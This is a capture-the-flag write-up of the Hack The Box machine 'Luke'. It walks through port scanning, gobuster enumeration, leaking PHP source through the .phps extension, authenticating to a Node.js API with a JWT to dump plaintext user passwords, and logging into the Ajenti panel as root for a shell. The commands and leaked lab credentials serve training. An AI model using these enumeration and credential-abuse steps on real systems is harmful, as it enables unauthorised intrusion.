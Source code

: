 ```yaml
---
layout: single
title: Luke - Hack The Box
excerpt: "Luke is a easy machine that doesn't have a lot steps but we still learn a few things about REST APIs like how to authenticate to the service and get a JWT token and which headers are required when using that JWT. The rest of the box was pretty straighforward with some gobuster enumeration, finding PHP sources files with credentials then finally getting a shell through the Ajenti application."
date: 2019-09-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-luke/luke_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - ftp
  - php
  - ajenti
  - json
  - jwt
---
```


![](/assets/images/htb-writeup-luke/luke_logo.png)

Luke is a easy machine that doesn't have a lot steps but we still learn a few things about REST APIs like how to authenticate to the service and get a JWT token and which headers are required when using that JWT. The rest of the box was pretty straighforward with some gobuster enumeration, finding PHP sources files with credentials then finally getting a shell through the Ajenti application.

## Summary

- On the FTP, there's a hint saying we need to get the source file for the web application
- By using the `.phps` file extension we can get the config web application and some credentials
- The credentials are used to authenticate to the API app on port 3000
- With the API we can list the users and their plaintext passwords
- The `/management` URI is protected with basic HTTP auth and we can log in with one of the user found with the API
- We then get the root password from the `config.json` file
- We can then log in as root on the Ajenti admin panel, then spawn a terminal window and retrieve the flags

### Portscan

```
# nmap -p- 10.10.10.137
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-26 16:39 EDT
Nmap scan report for luke.htb (10.10.10.137)
Host is up (0.021s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
8000/tcp open  http-alt
```

### FTP enumeration

Anonymous FTP access is enabled there's a file I can download: `for_Chihiro.txt`

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r-xr-xr-x    1 0        0             306 Apr 14 12:37 for_Chihiro.txt
226 Directory send OK.

ftp> get for_Chihiro.txt
local: for_Chihiro.txt remote: for_Chihiro.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for for_Chihiro.txt (306 bytes).
226 Transfer complete.
306 bytes received in 0.00 secs (809.8323 kB/s)
```

The file contains contains a hint regarding source files for the website application.

```
As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies !

Derry
```

### Website enumeration

The site running on port 80 is just a generic site with no dynamic content that I can see.

![](/assets/images/htb-writeup-luke/luke1.png)

While running gobuster I find a couple of interesting directories:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,204,301,302,307,401,403 -t 25 -x php -u http://10.10.10.137

/LICENSE (Status: 200)
/config.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/login.php (Status: 200)
/management (Status: 401)
/member (Status: 301)
/vendor (Status: 301)
=====================================================
2019/05/26 16:38:20 Finished
=====================================================
```

`/management` uses HTTP basic authentication and I don't have the password yet. I'll keep that in mind and come back to it later when I find the credentials.

![](/assets/images/htb-writeup-luke/management1.png)

`/login.php` shows a login page for some PHP web application.

![](/assets/images/htb-writeup-luke/login1.png)

I tried a few sets of credentials and I wasn't able to log in. A quick run with SQLmap didn't reveal any easy SQL injection point either.

The hint from the FTP file talked about source files so I did another gobuster pass using `.phps` as the extension since I knew the application was running on PHP based on the `login.php` file found. The `.phps` extension can be used to produce a color formatted output of the PHP source code without actually interpreting it. It's definitely not something you want to leave your production webservers especially if it contains credentials.

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,204,301,302,307,401,403 -t 25 -x phps -u http://10.10.10.137
/config.phps (Status: 200)
/login.phps (Status: 200)
```

Allright, I found a couple of files and I see that the `config.phps` contains the root credentials for MySQL

```
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = 'Zk6heYCyv6ZE9Xcg';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
```

The `login.phps` file shows that the web application is incomplete: it doesn't really do anything when you log in except set the session cookie. This probably means that I was just meant to find the password from the `config.phps` file and that I can ignore the login page.

![](/assets/images/htb-writeup-luke/login_source.png)

### NodeJS app

The application running on port 3000 expects a JWT token in the Authorization header.

![](/assets/images/htb-writeup-luke/json1.png)

I dirbursted the site to find API endpoints and found the following:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,204,301,302,307,401,403 -t 25 -u http://10.10.10.137:3000

/Login (Status: 200)
/login (Status: 200)
/users (Status: 200)
=====================================================
2019/05/26 16:41:55 Finished
=====================================================
```

I can't reach `/users` because it expects an authorization header:

```
{"success":false,"message":"Auth token is not supplied"}
```

But I can log in and get a token with the following POST request;

```console
curl -XPOST http://10.10.10.137:3000/login -H 'Content-Type: application/json' -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
```

I get a JWT token back after logging in:

```
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4ODg5NzM0LCJleHAiOjE1NTg5NzYxMzR9.hW8fCbdZ2S9L691y_OG5Kr0Bt2598JYjDlqLVrcOlj4"}
```

To authenticate, I add the following header to the GET request on `/` and `/users`:

```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4ODg5NzM0LCJleHAiOjE1NTg5NzYxMzR9.hW8fCbdZ2S9L691y_OG5Kr0Bt2598JYjDlqLVrcOlj4
```

On `GET /`, I now get `{"message":"Welcome admin ! "}`

`GET /users` shows a list of users:

```
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4NDE3NjA1LCJleHAiOjE1Njg1MDQwMDV9.MXxjA5devINORQHlkRL17JH96uWO1VJIZMKZSDdf--U' http://10.10.10.137:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

I can query each individual user with `GET /users/<username>` and it returns their password:

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

### Management page

I tried those credentials and found that I can log into the `/management` page with `Derry` (username is case sensitive)

![](/assets/images/htb-writeup-luke/management2.png)

`config.php` and `login.php` contain the source we already have but `config.json` contains another set of credentials:

![](/assets/images/htb-writeup-luke/config.png)

Password: `KpMasng6S5EtTy9Z`

I tried logging in as root by SSH but I wasn't able to.

### Ajenti

I have one port left to check on the system. The Ajenti server admin panel runs on port 8000

![](/assets/images/htb-writeup-luke/ajenti1.png)

I can log in with `root` and `KpMasng6S5EtTy9Z`.

![](/assets/images/htb-writeup-luke/ajenti2.png)

Using the Terminal menu under Tools, I can get a shell and since I'm already running as root I can grab both flags.

![](/assets/images/htb-writeup-luke/flag.png)
